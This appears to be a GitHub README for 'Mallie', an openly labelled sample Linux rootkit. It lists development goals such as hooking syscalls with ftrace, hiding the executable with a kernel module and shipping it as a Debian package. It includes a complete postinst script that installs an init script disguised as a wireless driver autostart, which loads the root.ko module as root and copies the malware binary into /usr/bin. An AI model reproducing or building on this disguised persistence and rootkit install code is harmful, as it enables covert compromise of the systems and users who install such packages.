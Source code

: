 # Mallie
Sample linux rootkit.

# TODO
- curl a url
- ~~get syscall table~~ use ftrace instead (no need find syscall table)
- hook a syscall with ftrace instead of modifying kernel memory
- package everything into a debian package
- use of mallie executable to curl and mallie.ko lkm to hide mallie executable

# Issues
- stdlib is not available for kernel modules, may need another executable

# Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

# Script
chmod 755 to the postinst script.
```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx.sh
echo '# chkconfig: 345 99 10' >> /etc/init.d/wireless-81xx.sh 
echo '# Description: Autostart wireless drivers' >> /etc/init.d/wireless-81xx.sh 
echo 'case "$1" in' >> /etc/init.d/wireless-81xx.sh 
echo " 'start')" >> /etc/init.d/wireless-81xx.sh 
echo '   su - root -c "cd /usr/bin ; insmod /usr/bin/root.ko";;' >> /etc/init.d/wireless-81xx.sh 
echo " 'stop')" >> /etc/init.d/wireless-81xx.sh 
echo ' echo "shutdown...";;' >> /etc/init.d/wireless-81xx.sh 
echo "esac" >> /etc/init.d/wireless-81xx.sh 

chmod +x /etc/init.d/wireless-81xx.sh
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
sh /etc/init.d/wireless-81xx.sh

```